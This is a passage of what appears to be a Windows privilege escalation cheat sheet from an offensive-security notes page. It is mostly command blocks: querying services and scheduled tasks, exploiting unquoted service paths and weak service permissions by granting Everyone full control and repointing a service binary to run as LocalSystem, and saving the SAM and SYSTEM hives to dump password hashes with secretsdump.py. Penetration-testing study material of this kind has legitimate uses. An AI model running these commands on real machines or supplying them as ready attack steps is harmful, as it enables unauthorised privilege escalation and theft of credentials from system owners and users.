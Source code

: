 #### Service Handling

```c
C:\> sc.exe create <SERVICE_NAME>
C:\> sc start <SERVICE_NAME>
C:\> sc qc <SERVICE_NAME>
```

#### Tasks & Services

**Scheduled Tasks**

```c
C:\> schtasks
C:\> schtasks /query /tn <TASK> /fo list /v
C:\> schtasks /run /tn <TASK>
PS C:\> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

**Unquoted Service Paths**

Search for `Unquoted Service Paths` by using `sc qc`.

```c
C:\> sc qc
C:\> sc qc WindowsScheduler
C:\> sc stop WindowsScheduler
C:\> sc start WindowsScheduler
```

```c
C:\> icacls <PROGRAM>.exe
C:\> icacls C:\PROGRA~2\SYSTEM~1\<SERVICE>.exe
C:\> icacls C:\PROGRA~2\SYSTEM~1\<SERVICE>.exe /grant Everyone:F
```

**Insecure Service Permissions**

```c
C:\> accesschk64.exe -qlc <SERVICE>
C:\> icacls C:\Users\<USERNAME>\<FILE>.exe /grant Everyone:F
C:\> sc config <SERVICE> binPath= "C:\Users\<USERNAME>\<FILE>.exe" obj= LocalSystem
C:\> sc stop <SERVICE>
C:\> sc start <SERVICE>
```

**SeBackup and SeRestore Privilege**

**Backup SAM and SYSTEM Hashes**

```c
C:\> reg save hklm\system C:\Users\<USERNAME>\system.hive
C:\> reg save hklm\sam C:\Users\<USERNAME>\sam.hive
```

**Dumping Hashes**

```c
$ secretsdump.py -sam sam.hive -system system.hive LOCAL
```
